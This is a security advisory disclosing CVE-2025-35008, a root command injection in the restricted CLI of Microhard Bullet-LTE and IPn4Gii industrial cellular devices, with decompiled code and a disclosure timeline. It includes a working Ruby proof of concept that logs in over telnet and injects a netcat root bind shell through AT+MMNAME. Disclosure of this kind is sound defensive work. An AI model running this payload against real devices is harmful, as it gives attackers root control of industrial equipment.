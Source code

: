 ```yaml
---
title: CVE-2025-35008
aliases:
  - /cves/CVE-2025-35008.html
pubDate: 2025-06-08T15:58:51-05:00
---
```


# CVE-2025-35008: Microhard Bullet-LTE and IPn4Gii AT+MMNAME Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35008] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MMNAME command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MMNAME which is used to rename the modem. User input supplied to the cmd_modem_name() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_validate.sh script which is called via popen():


```
undefined4 cmd_modem_name(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
    ...
    memset(acStack_a8,0,0x80);
    memset(auStack_128,0,0x80);
    sprintf(acStack_a8,"%s|||%s %s=1 %s=63|%s",DAT_0003f8dc + 0x158,DAT_0003f9ac + 0x48,
            DAT_0003f9ac + 0x8c,DAT_0003f9ac + 0xd0,param_3[1]);
    iVar2 = FUN_0000ea24(param_1,acStack_a8,auStack_128);
    ...
}

undefined4 FUN_0000ea24(undefined4 param_1,undefined4 param_2,char *param_3)
{
  int iVar1;
  undefined4 uVar2;
  FILE *__stream;
  char *pcVar3;
  char local_198 [128];
  char acStack_118 [256];

  memset(local_198,0,0x80);
  memset(acStack_118,0,0x100);
  memset(param_3,0,4);
  sprintf(acStack_118,"sh /etc/m_cli/atcmd_sh_validate.sh \"%s\"",param_2);
  iVar1 = FUN_0000e9a0(param_1,acStack_118,param_3,4);
  if (iVar1 == 0) {
    uVar2 = 1;
  }
  ...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;

  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MMNAME command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35008] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mmname=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35008] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35008]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35008]: https://www.cve.org/CVERecord?id=CVE-2025-35008
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
